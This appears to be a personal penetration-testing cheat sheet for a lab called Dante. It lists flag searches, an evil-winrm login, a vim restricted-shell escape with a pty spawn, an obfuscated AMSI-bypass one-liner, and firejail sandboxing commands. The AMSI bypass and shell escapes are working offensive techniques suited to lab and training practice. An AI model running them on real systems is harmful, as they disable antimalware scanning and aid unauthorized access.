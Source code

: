 Get-ChildItem -Path C:\Users\* -recurse |  Select-String -Pattern "DANTE{"
Get-ChildItem -Path C:\* -recurse |  Select-String -Pattern "DANTE{"


# spawn a evilWinRm session with a access to a directory for file transferring  (we then cd )
evil-winrm -u USERNAME  -p PASSWORD -i IP -s /usr/share/windows-resources/


# running python2 exploits fix (add shebang line below to top of code, then run program with python2 program.py) 
#!/usr/bin/env python


# python fix encoding issue ( add line below under shebang line)
# -*- coding: utf-8 -*-

# bypass a  limited shell via vim  
vim
:set shell=/bin/sh
:shell
python3 -c "import pty;pty.spawn('/bin/bash')"

# bypass AMSI 
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


# sandbox pdf file with firejail this will  deny internet access and deny directory access of local machine
firejail --seccomp --nonewprivs --private --private-dev --private-tmp --net=none --x11 evince /media/kali/Extended-Storage/Courses/


# sandbox cherrytree doc with firejail this will  deny internet access and deny directory access of local machine
 firejail --seccomp --nonewprivs --private --private-dev --private-tmp --net=none --x11  --whitelist=/media/kali/Extended-Storage/Courses/ cherrytree  /media/kali/Extended-Storage/Courses/


# sandboxing libreoffice documents, this will open docs in a sandboxed environment and dispose of files saved in the temporary /home directories 
firejail --seccomp --nonewprivs --net=none --x11  --whitelist=/media/kali/Extended-Storage/Courses/ libreoffice /media/kali/Extended-Storage/Courses/

